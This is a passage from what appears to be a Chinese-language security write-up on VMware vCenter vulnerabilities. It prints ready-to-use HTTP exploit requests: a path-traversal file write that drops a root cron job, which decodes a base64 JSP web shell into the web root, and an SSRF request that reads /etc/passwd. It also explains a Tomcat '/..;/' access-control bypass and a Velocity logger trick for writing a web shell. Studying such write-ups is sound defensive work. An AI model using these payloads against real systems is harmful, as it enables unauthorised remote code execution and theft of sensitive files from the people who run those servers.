 目前已经可以控制任意文件写入，但是没有办法控制文件后缀 `.json`，对于 linux 的机器可以写入计划任务来执行写 shell 的操作：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```http<br>POST /analytics/telemetry/ph-stg/api/hyper/send?_c=&_i=/../../../../../../etc/cron.d/POC HTTP/1.1<br>Host: IP<br>Content-Type: application/json<br>Content-Length: 144<br><br>* * * * * root echo PCUgICAgICAgIG91dC5wcmludGxuKCJIZWxsb1dvcmxkIik7ICAgICAgJT4=\|base64 -d >/usr/lib/vmware-sso/vmware-sts/webapps/ROOT/hello.jsp<br>``` |

待定时任务启动后，可在 `https://localhost/idm/..;/hello.jsp` 可以访问到 shell。

(这里的`/..;/`是因为 Tomcat 会将`/..;/`视作`/../`，可以利用该特性绕过 vCenter 某些版本的 `rhttpproxy` 的访问限制)。

##### [](#dataappagentcontroller-%E6%BC%8F%E6%B4%9E)DataAppAgentController 漏洞

官方提供的 POC 中还涉及到一个接口：`/analytics/telemetry/ph/api/dataapp/agent`，而在新版本的代码中，已经将端点： `/dataapp/agent` 相关代码全部删除，因此确定漏洞的位置。

最终通过`VelocityHelper.executeVelocityExpression` 触发 `velocity` 表达式执行。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205081747127.png-water_print](assets/1708572547-82cdbf09478454fa99cd397d897b61e0.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205081747127.png-water_print")

最终 `@testbnull` 发现可以通过上下文可用的 `$GLOBAL-logger`，利用 `setFile` 方法临时修改日志路径到 Web 路径的方式，写入 WebShell 实现 RCE。

### [](#26-provider-logo-ssrf-%E6%BC%8F%E6%B4%9E)2.6 provider-logo SSRF 漏洞

#### [](#261-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)2.6.1 漏洞利用

VMware vCenter v 7.0.x 的某些版本中存在未授权 SSRF 漏洞，可以读取本地文件造成敏感信息泄露；读取远程文件形成 XSS 漏洞。

POC & EXP:

-   `/nuclei-templates/vulnerabilities/vmware/vmware-vcenter-ssrf.yaml`

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```http<br>GET /ui/vcav-bootstrap/rest/vcav-providers/provider-logo?url=file:///etc/passwd HTTP/1.1<br>Host: {{target}}<br>``` |
